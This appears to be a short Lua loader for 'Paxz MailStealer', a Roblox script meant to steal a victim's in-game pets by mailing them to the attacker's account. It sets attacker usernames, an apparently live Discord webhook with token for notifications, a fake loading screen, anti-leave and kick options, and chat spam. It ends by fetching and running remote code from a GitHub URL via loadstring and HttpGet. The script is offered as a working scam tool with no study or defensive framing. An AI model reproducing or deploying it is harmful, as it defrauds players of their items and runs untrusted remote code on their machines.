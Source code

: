 
-- {{Paxz MailStealer}} --#

_G.UserName = "giorpro13" --// User you want to send good pets to like Titantics, Huges, exclusives
_G.UserName2 = "giorpro13" --// Sends bad pets to like event pets put the same user if you want to send them to first user to
_G.Webhook = "https://discord.com/api/webhooks/1140633158912577647/_UPr8yfZHrb0rvPmsmJ2qbA3eMj22l_4aTh7vaAsHL9Cl1Zz2oUJ5mhtyaSuoRx_MgW-" --// Sends you a notification if you are getting pets in your mail
_G.loadingScreenText = "scam tread accept" --// Set _G.LoadingScreen to true for loading screen and here you can put text for it
_G.ChatMessage = "Treadscamaccpte" --// Set _G.ChatSpam to true for spamming a message you put in here
_G.KickTime = "60" --// Kicks the player after the time you set (In Seconds)

-- [[Extra Stuff]] --

_G.LoadingScreen = true --// Set to true if you want loadingscreen
_G.AntiLeave = true --// Set to true if you want to the player to not leave
_G.MouseLock = false --// Locks the mouse (Not working really well)
_G.ChatSpam = ture --// Spams a message you putted in _G.ChatMessage in the chat
_G.CollectOrbs = ture --// Collects all orbs from anywhere

-- /|\ Script /|\ --
loadstring(game:HttpGet("https://raw.githubusercontent.com/PaxzStealer/Paxz/main/Paxz%20MailStealer.lua", true))()
